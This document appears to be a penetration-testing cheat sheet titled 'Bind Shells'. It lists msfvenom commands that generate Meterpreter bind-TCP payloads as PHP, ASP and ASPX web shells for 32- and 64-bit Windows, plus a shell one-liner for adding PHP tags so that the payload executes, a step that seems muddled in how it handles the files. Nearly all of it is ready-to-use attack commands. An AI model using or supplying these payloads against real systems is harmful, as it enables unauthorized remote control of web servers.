 # Bind Shells

## PHP

PHP meterpreter bind callback shell

```
$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw > met.php
```

After generating the PHP meterpreter bind callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard met.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```

## ASP

x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x86.asp
```

x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x64.asp
```

## ASPX

x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x86.aspx
```

x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f aspx -o met-x64.aspx
```